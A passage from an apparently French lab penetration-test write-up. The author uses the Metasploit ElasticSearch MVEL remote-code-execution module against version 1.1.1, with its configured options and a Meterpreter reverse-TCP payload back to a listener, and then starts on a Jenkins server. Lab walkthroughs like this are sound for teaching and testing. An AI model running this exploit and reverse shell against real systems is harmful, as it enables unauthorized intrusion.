 * build_hash
* lucene version

La version indiquée est la 1.1.1.
Il est existe un exploit metasploit pour cette version.

```bash
msf6 exploit(multi/elasticsearch/script_mvel_rce) > use exploit/multi/elasticsearch/script_mvel_rce
[*] Using configured payload java/meterpreter/reverse_tcp
```

On prend soin de configurer les options correctement 
```bash
msf6 exploit(multi/elasticsearch/script_mvel_rce) > options 

Module options (exploit/multi/elasticsearch/script_mvel_rce):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS       192.168.56.7     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT        9200             yes       The target port (TCP)
   SSL          false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI    /                yes       The path to the ElasticSearch REST API
   VHOST                         no        HTTP server virtual host
   WritableDir  /tmp             yes       A directory where we can write files (only for *nix environments)


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.56.5     yes       The listen address (an interface may be specified)
   LPORT  4785             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   ElasticSearch 1.1.1 / Automatic
```

La commande `run` va nous obtenir un shell sur la machine distante.

## Jenkins

En se connectant sur le port 8484 avec firefox, on voit que l'on a à faire à un server Jenkins.
